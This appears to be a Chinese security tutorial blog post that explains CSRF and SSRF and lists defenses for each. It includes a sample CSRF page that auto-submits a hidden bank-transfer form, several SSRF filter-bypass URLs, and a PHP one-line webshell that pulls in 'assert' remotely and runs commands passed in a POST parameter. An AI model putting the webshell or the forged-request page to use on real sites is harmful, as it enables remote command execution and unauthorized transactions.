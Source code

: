 ```yaml
---
published: true
layout: post
tags: web安全
categories: document
description: CSRF与SSRF原理
---
```

## Csrf跨站请求伪造
   Csrf利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）。CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。   

CSRF攻击攻击原理及过程如下：  
1.用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A;    
2.在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A;   
3.用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B;    
4.网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A;   
5.浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。

例如访问的恶意web页面为：


	<img src="恶意链接地址" border="0" style="display:none;"/> 


	<h1>404<h1> 


	<h2>file not found.<h2> 
    

若网站使用post发送请求，那么攻击方可以修改页面为：

      <html> 
        <head> 
          <script type="text/javascript"> 
            function steal() 
            { 
                     iframe = document.frames["steal"]; 
                     iframe.document.Submit("transfer"); 
            } 
          </script> 
        </head> 

        <body onload="steal()"> 
          <iframe name="steal" display="none"> 
            <form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php"> 
              <input type="hidden" name="toBankId" value="11"> 
              <input type="hidden" name="money" value="1000"> 
            </form> 
          </iframe> 
        </body> 
      </html> 


csrf防御策略:  
1.验证 HTTP Referer 字段  
    根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。如果黑客要对银行网站实施 CSRF 攻击，他只能在他自己的网站构造请求，当用户通过黑客的网站发送请求到银行时，该请求的 Referer 是指向黑客自己的网站。因此，要防御 CSRF 攻击，银行网站只需要对于每一个转账请求验证其 Referer 值，如果是以 bank.example 开头的域名，则说明该请求是来自银行网站自己的请求，是合法的。如果 Referer 是其他网站的话，则有可能是黑客的 CSRF 攻击，拒绝该请求。  
2.在请求地址中添加 token 并验证  
 	CSRF 攻击之所以能够成功，是因为黑客可以完全伪造用户的请求，该请求中所有的用户验证信息都是存在于 cookie 中，因此黑客可以在不知道这些验证信息的情况下直接利用用户自己的 cookie 来通过安全验证。要抵御 CSRF，关键在于在请求中放入黑客所不能伪造的信息，并且该信息不存在于 cookie 之中。可以在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。  
3.设置跨域权限    	
4.提交验证码      
	在表单中添加一个随机的数字或字母验证码。通过强制用户和应用进行交互。来有效地遏制CSRF攻击。

## SSRF服务端请求伪造
  SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）应用需要调用其他服务器的资源，需要传入一个目标服务器地址去请求，但是没有对目标地址做过滤与限制，导致攻击者可借助服务端实现访问其本无权访问的URL。攻击者无权访问的URL主要是内网，而对于不是Web服务的其他端口反回的一般是端口对应的服务的banner信息，所以SSRF的一大利用是探测内网端口开放信息。  

ssrf出现在：  
1.通过url分享网页内容   
2.转码服务   
3.在线翻译   
4.图片的加载与下载   
5.在url关键字寻找：share,wap,url,link,src,sourse,target,u,3g,display,sourceURl,imgurl   

例如：  
www.xxx.com/a.php?image=http://www.abc.com/1.jpg  
如果我们将http://www.abc.com/1.jpg换为与该服务器相连的内网服务器地址会产生什么效果呢？  
如果存在该内网地址就会返回1xx 2xx 之类的状态码，不存在就会其他的状态码  

当访问的内网地址http://127.0.0.1/ 被过滤的时候，可以尝试一下几种方式:        
1.@  
http://abc@127.0.0.1  
2.添加端口号    
http://127.0.0.1:8080    
3.短地址  
http://dwz.cn/11SMa  
4.ip地址转换成进制来访问  
115.239.210.26 = 16373751032   

 外网利用过程：   
1.在b站上传一句话木马  

    <?php 
    $s=$_POST[‘url’] 
    $s=file_get_contents($s) 
    $s($_POST[‘cmd’]); 
    > 

2.在a站保存一个txt文件，内容为 assert  
3.访问b站的木马，上传url=a站ip的txt文件将assert读取，脚本解释器将它解释为assert函数，&cmd={phpinfo();可以继续添加命令system("ipconfig")} 让assert执行cmd实现获取php信息的木马执行。（//这就是利用服务端远程文件读取）

ssrf防御策略：    
1.过滤放回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。  
2.统一错误信息，避免用户可以根据错误信息来判断远程服务器的端口状态。  
3.限制请求的端口为http常用的端口，比如，80,443,8080,8090。  
4.黑名单内网IP。避免应用被用来获取内网数据，攻击内网。  
5.禁用不需要的协议。仅仅允许http和https请求。

